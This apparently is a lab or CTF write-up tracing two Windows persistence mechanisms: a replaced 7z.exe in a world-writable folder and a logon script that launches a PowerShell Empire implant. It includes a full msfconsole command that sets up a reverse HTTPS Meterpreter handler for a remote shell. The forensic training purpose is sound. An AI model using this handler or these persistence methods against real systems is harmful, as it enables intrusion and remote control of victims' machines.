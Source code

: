Directing the victim to a host with `netcat` listening on port 22222 shows
it is trying to make an HTTPS connection.

**ANALYSIS:**

The 7z.exe program has been replaced by a malicious executable because
the 7-Zip folder was world-writable.  When executed, the file starts a
process that attempts to connect to a port on the attacker's machine via
HTTPS.

**ANSWER:**

This persistence method allows an attacker to obtain a meterpreter shell
with:

```bash
msfconsole -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 192.168.2.110;set LPORT 22222;run'
```

## Logon Scripts

A logon script can be configured to run whenever a user logs onto a
system. 

Use `sudo tcpdump -i eth0 host 192.168.2.114 -w outputfile.pcap` to
capture traffic coming to the "attacker's host" when the user logs in:

This shows 3 connection attempts to 192.168.2.110.9999.

Set up a netcat listener using `sudo nc -nlvp 9999` and log out and
back in again.

On the listener for 9999, I observed an HTTP GET request for `/index.asp` coming from source port 49159.

Now a `netstat -ano` on the host shows these connections and the PIDs
of the processes initiating them.  You'll need to work fast before this
process drops gives up on the connection and exits...

`wmic process where processid=<pid> list full` on the host gives us
information about the process:

`powershell.exe       (Long encoded command line argument)    PPID of 1724 (exited)`

Decoding the Base64 string and decompressing the binary shows this is
most likely a PowerShell Empire implant running in memory. 

We need to know what started the PowerShell process.  There are several
tools that can be used to find this but I chose to use Sysmon64 from the
SysInternals Suite.  I started SysMon logging by using `sysmon64.exe -accepteula -i` and logged out and back in again.

This time, checking the Sysmon logs in EventViewer shows the powershell
process along with how it was started:

`EventID=1 Process Creation`

`ParentCommandLine:  cmd /c \\Vm-user-pc\netlogon\launcher.bat`
